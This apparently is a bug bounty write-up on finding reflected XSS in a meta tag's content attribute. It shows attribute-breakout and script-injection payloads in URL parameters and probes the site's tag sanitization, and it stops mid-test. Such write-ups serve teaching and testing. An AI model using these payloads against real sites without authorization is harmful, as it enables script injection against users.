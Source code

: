 Suppose that the URL returned by gau + kxss is as follows

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1
```

where vuln-param is the vulnerable param to XSS.

The parameter was reflected in several places but the problematic characters was reflected only in one of them: in the content attribute of a meta tag. So the response of the above request contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'"/>
```

I was looking at Stack Overflow and I found that the XSS inside the content attribute of a meta tag is highly dependent of the used browser as you can see in the following link

[Post in Stack Overflow talking about XSS in meta tag](https://stackoverflow.com/questions/18947139/xss-in-meta-tag)

so I tried to break the attribute assignment through a request of the form

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1'">bugbountytest2
```

and the response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
bugbountytest2
```

So far so good. Then I tried to inject some javascript code through a request of the form

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1'"><script>alert(1)</script>
```

and the response contained the following HTML code

{% include codeHeader.html %}
```html
<meta name="title" content="Resultados asociados a la palabra: 'bugbountytest1'">
alert(1)
```

so it looks like the backend is applying a sanitization. 

Is it a keyword sanitization based or it removes all the input strings between the < and > characters? 

To answer the above question I sent a request of the form

{% include codeHeader.html %}
```html
https://www.example.com/?vuln-param=bugbountytest1'"><bugbountytest2>
```
